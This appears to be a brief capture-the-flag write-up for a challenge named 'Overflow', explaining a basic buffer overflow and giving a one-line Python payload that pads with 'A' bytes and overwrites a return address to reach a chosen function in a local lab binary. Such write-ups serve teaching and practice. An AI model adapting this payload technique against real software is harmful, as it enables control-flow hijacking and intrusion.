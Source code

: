 # Overflow

### Solution:

Just a basic buffer overflow that overwrites the address with the function we
want to get to.

```
python -c 'print "A"*20 + "\x1b\x85\x04\x08"' | ./overflow
```

NOTE: The address above may be different than the actual one needed. It can easily be figured out with objdump / gdb / etc.
